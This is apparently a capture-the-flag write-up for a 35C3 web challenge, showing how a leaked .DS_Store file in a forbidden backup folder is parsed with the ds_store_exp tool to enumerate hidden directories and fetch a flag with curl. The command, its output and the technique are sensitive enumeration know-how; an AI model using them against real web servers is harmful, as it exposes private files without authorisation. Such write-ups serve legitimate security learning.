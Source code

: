 # Challenge McDonald

44 Points

## Challenge

Our web admin name's "Mc Donald" and he likes apples and always forgets to throw away his apple cores..

http://35.207.91.38

## Solution

The webpage under the given URL shows just the same hint as the challenge. After a bit of nmap and html/javascript analysis nothing special was found. So we try some common URLs for hidden files. And we where lucky and found the folder "/backup/", but the response was a 403 FORBIDDEN. The hint talks about the admin and how he forgets his "apple cores" -> maybe this is a reference to the company apple? YES!

There is a "leftover" file from an apple file system, that can be downloaded: http://35.207.91.38/backup/.DS_Store

This file contains some file system informations of an apple file system. With this file it's possible to do a directory listening. There is an open source tool that can be used to get the needed information:

https://github.com/lijiejie/ds_store_exp.git

With this tool a simple command show some hidden files:
```
python ds_store_exp.py http://35.207.91.38/backup/.DS_Store
```

Output:
```
root@blackbox:# python ds_store_exp.py http://35.207.91.38/backup/.DS_Store
[+] http://35.207.91.38/backup/.DS_Store
[+] http://35.207.91.38/backup/c/.DS_Store
[+] http://35.207.91.38/backup/b/.DS_Store
[Folder Found] http://35.207.91.38/backup/c
[Folder Found] http://35.207.91.38/backup/b
[Folder Found] http://35.207.91.38/backup/a
[+] http://35.207.91.38/backup/c/c/.DS_Store
[+] http://35.207.91.38/backup/b/a/.DS_Store
[Folder Found] http://35.207.91.38/backup/c/c
[+] http://35.207.91.38/backup/c/b/.DS_Store
[+] http://35.207.91.38/backup/b/b/.DS_Store
[Folder Found] http://35.207.91.38/backup/b/a
[Folder Found] http://35.207.91.38/backup/c/b
[+] http://35.207.91.38/backup/b/noflag.txt
[Folder Found] http://35.207.91.38/backup/b/c
[Folder Found] http://35.207.91.38/backup/b/b
[Folder Found] http://35.207.91.38/backup/c/c/a
[+] http://35.207.91.38/backup/b/a/c/.DS_Store
[Folder Found] http://35.207.91.38/backup/c/c/b
[+] http://35.207.91.38/backup/b/a/b/.DS_Store
[Folder Found] http://35.207.91.38/backup/c/c/c
[Folder Found] http://35.207.91.38/backup/b/a/a
[+] http://35.207.91.38/backup/b/a/noflag.txt
[Folder Found] http://35.207.91.38/backup/b/a/c
[Folder Found] http://35.207.91.38/backup/c/a
[Folder Found] http://35.207.91.38/backup/b/a/b
[+] http://35.207.91.38/backup/b/a/c/flag.txt
[+] http://35.207.91.38/backup/b/a/c/noflag.txt

```

Now download the found flag.txt and look at the flag:

```
root@blackbox:# curl http://35.207.91.38/backup/b/a/c/flag.txt
35c3_Appl3s_H1dden_F1l3s
```
